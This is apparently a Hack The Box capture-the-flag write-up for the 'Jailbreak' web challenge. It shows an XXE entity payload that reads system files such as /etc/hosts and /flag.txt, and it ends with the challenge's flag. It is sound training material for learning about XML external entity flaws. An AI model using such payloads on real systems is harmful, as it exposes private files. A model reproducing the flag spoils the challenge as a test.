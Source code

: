 # Jailbreak - Web

## Context

Given access to a webpage spawned by HTB docker. 

## Solution

Navigating through the webpage, on the ROM page, we see the option to submit XML code for a firmware update:

```xml
<FirmwareUpdateConfig>
    <Firmware>
        <Version>1.33.7</Version>
        <ReleaseDate>2077-10-21</ReleaseDate>
        <Description>Update includes advanced biometric lock functionality for enhanced security.</Description>
        <Checksum type="SHA-256">9b74c9897bac770ffc029102a200c5de</Checksum>
    </Firmware>
    <Components>
        <Component name="navigation">
            <Version>3.7.2</Version>
            <Description>Updated GPS algorithms for improved wasteland navigation.</Description>
            <Checksum type="SHA-256">e4d909c290d0fb1ca068ffaddf22cbd0</Checksum>
        </Component>
        <Component name="communication">
            <Version>4.5.1</Version>
            <Description>Enhanced encryption for secure communication channels.</Description>
            <Checksum type="SHA-256">88d862aeb067278155c67a6d6c0f3729</Checksum>
        </Component>
        <Component name="biometric_security">
            <Version>2.0.5</Version>
            <Description>Introduces facial recognition and fingerprint scanning for access control.</Description>
            <Checksum type="SHA-256">abcdef1234567890abcdef1234567890</Checksum>
        </Component>
    </Components>
    <UpdateURL>https://satellite-updates.hackthebox.org/firmware/1.33.7/download</UpdateURL>
</FirmwareUpdateConfig>
```

Pressing the submit button displays the following output on screen: 

```
Firmware version 1.33.7 update initiated.
```

Reading through the XML code provided, we can see that the value `1.33.7` is stored in the `<Version>` tag under `<Firmware>`.

I then experimented with executing an XXE attack in BurpSuite's Repeater to find the flag:

Inserted XML Entity containing first attempt payload:

```
  <!DOCTYPE FirmwareUpdateConfig [
    <!ENTITY xxe SYSTEM "/etc/hosts">
]>
```

![xxe1](https://github.com/user-attachments/assets/dc8fa99d-4b6d-45b5-b3af-1d89d028a87a)


Success! By replacing the version with the entity payload, I can see that the webpage is printing the contents of the passwd file from the hosting system. I tried a few more paths before realising the flag could simply be found by setting the payload to `/flag.txt`:

![xxe2](https://github.com/user-attachments/assets/2ea29a82-7cde-4a54-8d02-0bf3025dfbc3)


**HTB{b1om3tric_l0cks_4nd_fl1cker1ng_l1ghts_e34d5ec1334f7f5da949bccadd8a7550}**




